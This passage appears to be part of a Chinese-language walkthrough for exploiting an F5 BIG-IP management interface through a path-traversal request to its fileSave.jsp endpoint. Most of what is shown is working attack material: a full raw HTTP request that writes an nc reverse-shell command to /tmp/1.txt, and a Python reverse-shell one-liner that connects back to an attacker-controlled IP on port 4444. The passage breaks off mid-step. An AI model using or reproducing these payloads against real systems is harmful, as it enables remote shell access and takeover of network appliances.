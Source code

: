 ```


```  
  
成功写入到/tmp/1.txt  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHE72NWXHsunwwKiaX8RyJGf5tfuvAB8BWec7MpML2icHT6ZHzgaR9Szcw/640?wx_fmt=png "")  
  
b、nc反弹shell  
```
fileSave.jsp?fileName=/tmp/1.txt&content=nc+192.168.174.131+4444+-t+-e+/bin/bash
```  
  
F5 BIG-IP主机自带nc,所以这里也可以使用nc来反弹shell：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHldPca14Nedsdic2CxtfW3mVkibtaaia9ZiaWoTE25azf3rvnUibuERN6J6Q/640?wx_fmt=png "")  
  
操作如下所示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuH21oBV1ycUYKCFdoQoRX3iaQo3sHDw9SglAKiaRLx1D843ibmBejTb1qHg/640?wx_fmt=png "")  
```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/1.txt&content=nc+192.168.174.131+4444+-t+-e+/bin/bash HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F


```  
  
成功写入：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHHVQ1UhWWUONRicRHlkaDsEIUYIQjHYgHIpRQhgr6sqwTHsQKs7euGpQ/640?wx_fmt=png "")  
  
c、python反弹shell  
```
fileSave.jsp?fileName=/tmp/1.txt&content=python+-c+'import+socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.174.131",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```  
  
  
F5 BIGIP自带python，所以也可以使用python来反弹shell：  
  